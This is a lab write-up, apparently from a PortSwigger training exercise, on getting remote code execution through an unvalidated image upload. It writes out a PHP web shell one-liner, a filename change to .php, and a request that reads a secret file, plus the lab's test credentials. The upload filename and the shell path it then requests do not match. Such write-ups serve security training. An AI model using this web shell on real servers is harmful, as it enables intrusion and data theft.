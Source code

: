 [Source](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)
## Task
This lab contains a vulnerable image upload function. It does not perform any validation on uploaded files before saving them to the server's `filesystem`.
To solve the task:
1. Download a basic `PHP` web shell.
2. Use it to extract the contents of the `/home/carlos/secret` file.
3. Submit the resulting secret using the button in the lab banner.

We can log in to the account with the credentials:

**Login:** `wiener`
**Password:** `peter`
## Solution
We go to the site and log in to the account. We see that it is possible to upload an image.

![image](images/20250627164641.png)

Load any image. In `Burp Suite`, go to `HTTP history`, click on filters and check `Images`. In the request history, find the `GET` request with our image. Send it to `Repeater`.

![image](images/20250627185530.png)


![image](images/20250627181933.png)

Also find the `POST` request, which is responsible for loading the image. Send it to `Repeater` as well. Remove the image metadata from it and insert the PHP code instead:
```PHP
<?php echo system($_GET['command']); ?>
```
Also change `filename="image.png"` to `filename="exploit.php"`

![image](images/20250627185352.png)

Send the request and go to the request that loads the image onto the page. In the first line of the request add:
```URL
/files/avatars/shell2.php?command=cat+/home/carlos/secret
```

![image](images/20250627185411.png)

After sending the request we see the contents of the file `/home/carlos/secret`:
```Secret
QjV0vJ0drEPMBtpOoiafuLNUV8dFxrCD
```

![image](images/20250627190057.png)
